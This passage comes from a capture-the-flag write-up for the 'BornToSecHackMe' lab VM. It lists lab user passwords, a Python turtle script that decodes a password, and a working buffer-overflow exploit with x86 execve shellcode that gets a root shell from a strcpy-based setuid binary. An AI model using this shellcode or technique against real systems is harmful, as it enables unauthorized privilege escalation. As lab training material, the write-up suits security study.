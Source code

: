 then we just connect thor user with: (with 1 and 3 inversed because 🤷)
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## SSH to thor

in the thor user we have a README and a a file that we deduce is some command for turtle
```sh
cat README
Finish this challenge and use the result as password for 'zaz' user.
```
we use the turtle file with this script
```py
from turtle import *

begin_fill()
with open("turtle", "r") as f:
    lines = f.readlines()
right(90)
for line in lines:
    cmd = line.split(" ")
    if cmd[0] == "Avance":
        forward(int(cmd[1]))
    elif cmd[0] == "Tourne":
        if cmd[1] == "gauche":
            left(int(cmd[3]))
        elif cmd[1] == "droite":
            right(int(cmd[3]))
    elif cmd[0] == "Recule":
        backward(int(cmd[1]))
    else:
        print(line)
end_fill()
done()
```

Then the turtle draw letters ```SLASH```
So we enctrypt it with md5 and that was the pass to user zaz
```
646da671ca01bb5d84dbb5fb2238dc8e
```

then we decompile the exploit_me and found that there is a strcpy inside.
We used it to do a buffer overflow with this command :

```
az@BornToSecHackMe:~$
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 35 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x88\xf8\xff\xbf" * 2')
�����������������������������������1����$h/zshh/binh/usr��PV�
                                                             ���1�̀�1�̀��1�1۰̀Sh/ttyh/dev��1�f�'�̀1�Ph//shh/bin��PS�ᙰ
                                                                                                                  ̀��������
# ls
exploit_me  mail
# whoami
root
```

and that's it we are roor yay !!! 

